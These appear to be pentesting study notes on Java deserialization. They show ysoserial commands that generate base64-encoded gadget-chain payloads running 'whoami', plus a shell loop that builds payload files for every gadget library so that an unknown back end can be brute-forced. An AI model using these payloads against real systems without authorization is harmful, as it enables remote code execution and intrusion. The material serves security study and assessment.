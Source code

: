 
The payload names displayed in the help message are **Library names** that the gadgets will be taken from. 

The **ysoserial** payload is in binary format. Often will need to convert the output to base64 in order to be able to send it to an application. 

- `java --add-opens java.base/sun.reflect.annotation=ALL-UNNAMED -jar ysoserial-all.jar CommonsCollections1 "whoami"`
`java --add-opens java.base/sun.reflect.annotation=ALL-UNNAMED -jar ysoserial-all.jar CommonsCollections1 "whoami" | base64`
    
    ![Untitled](../assets/img/study/attackserialization/Untitled%2024.png)
    

The command above generates a serialized payload, that upon being insecurely deserialized by an application that includes **CommonsCollections1** in its classpath, will result in executing the command `,,whoami"`

Its usage **isn’t the most convenient** when assessing **WebAPP** due to being a command line script.

Several **Burpsuite Pro** extensions have been developed in order to make Java serialization detection and exploitation easier.

- Freddy, Deserialization Bug Finder
- Java Deserialization Scanner

When approaching an application that utilizes serialized java data, we don’t know what libraries are used by the back end. In such a case, a brute-force approach might be rewarding.

Assume that payloads.txt contains **ALL ysoserial payload names**, one per line

```jsx
while read payload;
do echo -en "$payload\n\n";
java --add-opens java.base/sun.reflect.annotation=ALL-UNNAMED -jar ysoserial-all.jar $payload "whoami" | base64 | tr -d '\n' >
payloads/$payload.ser
echo -en "--------------------------------\n\n"; done < payloads.txt
```
